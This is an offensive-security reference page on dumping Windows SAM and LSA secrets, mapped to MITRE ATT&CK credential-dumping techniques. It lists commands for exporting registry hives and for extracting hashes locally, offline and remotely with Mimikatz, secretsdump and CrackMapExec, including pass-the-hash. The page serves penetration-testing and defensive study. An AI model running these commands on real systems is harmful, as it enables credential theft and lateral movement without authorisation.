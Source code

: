 ```yaml
---
description: 'MITRE ATT&CK™ Sub-techniques T1003.002, T1003.004 and T1003.005'
---
```


# SAM & LSA secrets

## Theory

In Windows environments, passwords are stored in a hashed format in registry hives like SAM \(Security Account Manager\) and SECURITY.

<table>
  <thead>
    <tr>
      <th style="text-align:left">Hive</th>
      <th style="text-align:left">Details</th>
      <th style="text-align:left">Format or credential material</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:left">SAM</td>
      <td style="text-align:left">stores local cached credentials (referred to as SAM secrets)</td>
      <td style="text-align:left">LM or NT hashes</td>
    </tr>
    <tr>
      <td style="text-align:left">SECURITY</td>
      <td style="text-align:left">stores domain cached credentials (referred to as LSA secrets)</td>
      <td
      style="text-align:left">
        <p>Plaintext password</p>
        <p>LM or NT hash</p>
        <p>MS-CACHE (a.k.a. DCC1, NT hash derivation) or MS-CACHE v2 (a.k.a. DCC2,
          MS-CACHE derivation)</p>
        </td>
    </tr>
    <tr>
      <td style="text-align:left">SYSTEM</td>
      <td style="text-align:left">contains enough info to decrypt SAM secrets or LSA secrets</td>
      <td style="text-align:left">N/A</td>
    </tr>
  </tbody>
</table>

SAM and LSA secrets can be dumped either locally or remotely from the mounted registry hives. These secrets can also be extracted offline from the exported hives.

## Practice

### Exporting hives

When the Windows operating system is running, the hives are in use and mounted. The command-line tool named `reg` can be used to export them.

```bash
reg save HKLM\SAM 'C:\path\to\sam.save'
reg save HKLM\SECURITY 'C:\path\to\security.save'
reg save HKLM\SYSTEM 'C:\path\to\system.save'
```

When Windows is not running, the hives are not mounted and they can be copied just like any other file. This can be operated when mounting the hard drive from another OS \(e.g. when booting the computer on another operating system\). The hive files can be found at the following locations.

```bash
\system32\config\sam
\system32\config\security
\system32\config\system
```

### Dumping secrets

Here are some examples and tools that can be used for local/remote/offline dumping.

{% tabs %}
{% tab title="Mimikatz" %}
[Mimikatz](https://github.com/gentilkiwi/mimikatz) can be used locally to extract credentials from `SAM` and `SECURITY` registry hives \(and `SYSTEM` for the encryption keys\), or offline with hive dumps.

```bash
# Local dumping of SAM secrets on the target
lsadump::sam

# Offline dumping of SAM secrets from exported hives
lsadump::sam /sam:'C:\path\to\sam.save' /system:'C:\path\to\system.save'

# Local dumping of LSA secrets on the target
lsadump::secrets

# Offline dumping LSA secrets from exported hives
lsadump::secrets /security:'C:\path\to\security.save' /system:'C:\path\to\system.save'
```
{% endtab %}

{% tab title="secretsdump" %}
[Impacket](https://github.com/SecureAuthCorp/impacket)'s [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) \(Python\) can be used to dump SAM and LSA secrets, either remotely, or from local files. For remote dumping, several authentication methods can be used like [pass-the-hash](../../abusing-lm-and-ntlm/pass-the-hash.md) \(NTLM\), or [pass-the-ticket](../../abusing-kerberos/pass-the-ticket.md) \(Kerberos\).

```bash
# Remote dumping of SAM & LSA secrets
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-hash)
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-ticket)
secretsdump.py -k 'DOMAIN/USER@TARGET'

# Offline dumping of LSA secrets from exported hives
secretsdump.py -security '/path/to/security.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM & LSA secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -security '/path/to/security.save' -system '/path/to/system.save' LOCAL
```
{% endtab %}

{% tab title="CrackMapExec" %}
[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\) can be used to remotely dump SAM and LSA secrets, on multiple hosts. It offers several authentication methods like [pass-the-hash](../../abusing-lm-and-ntlm/pass-the-hash.md) \(NTLM\), or [pass-the-ticket](../../abusing-kerberos/pass-the-ticket.md) \(Kerberos\)

```bash
# Remote dumping of SAM/LSA secrets
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (local user authentication)
crackmapexec smb $TARGETS --local-auth -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-hash)
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-ticket)
crackmapexec smb $TARGETS --kerberos --sam/--lsa
```
{% endtab %}
{% endtabs %}

## References

{% embed url="http://moyix.blogspot.com/2008/02/syskey-and-sam.html" caption="" %}

{% embed url="http://moyix.blogspot.com/2008/02/decrypting-lsa-secrets.html" caption="" %}

{% embed url="https://medium.com/@benichmt1/secretsdump-demystified-bfd0f933dd9b" %}

